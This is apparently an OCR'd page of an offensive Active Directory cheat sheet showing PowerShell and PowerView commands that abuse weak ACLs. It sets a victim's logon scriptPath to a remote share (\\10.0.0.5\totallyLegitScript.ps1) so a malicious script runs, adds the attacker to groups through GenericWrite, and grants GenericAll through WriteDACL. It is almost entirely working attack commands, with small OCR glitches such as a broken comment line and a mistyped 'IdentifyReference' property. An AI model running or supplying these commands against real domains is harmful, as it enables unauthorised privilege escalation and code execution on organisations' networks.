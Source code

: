 ```
// Check for weak permissions
Get-ObjectAcl -ResolveGUIDs -SamAccountName delegate | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
// `WriteProperty` on an `ObjectType`, for `Script-Path`, user system will execute our malicious script after login next time
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```

##### GenericWrite on Group

This allows you to set as members of the group new users (yourself for example)

```
# Create creds
$pwd = ConvertTo-SecureString 'JustAWeirdPwd!$' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('DOMAIN\username', $pwd) 
# Add user to group
Add-DomainGroupMember -Credential $creds -Identity 'Group Name' -Members 'username' -Verbose
# Check user was added
Get-DomainGroupMember -Identity "Group Name" | Select MemberName
# Remove group member
Remove-DomainGroupMember -Credential $creds -Identity "Group Name" -Members 'username' -Verbose
```

##### WriteDACL + WriteOwner

```
//If you are the owner of a group, like I'm the owner of a `Test` AD group:
//Which you can of course do through powershell:
([ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local").PSBase.get_ObjectSecurity().GetOwner([System.Security.Principal.NTAccount]).Value

// then check for permissions
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=test,CN=Users,DC=offense,DC=local" -and $_.IdentifyReference -eq "OFFENSE\spotless"}

// After find our user has WriteDACL, you can give yourself GenericAll
privileges with a sprinkle of ADSI sorcery
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local"
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()

// or with cmdlets
$path = "AD:\CN=test,CN=Users,DC=offense,DC=local"
$acl = Get-Acl -Path $path
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule (New-Object System.Security.Principal.NTAccount "spotless"),"GenericAll","Allow"
$acl.AddAccessRule($ace)
Set-Acl -Path $path -AclObject $acl
```
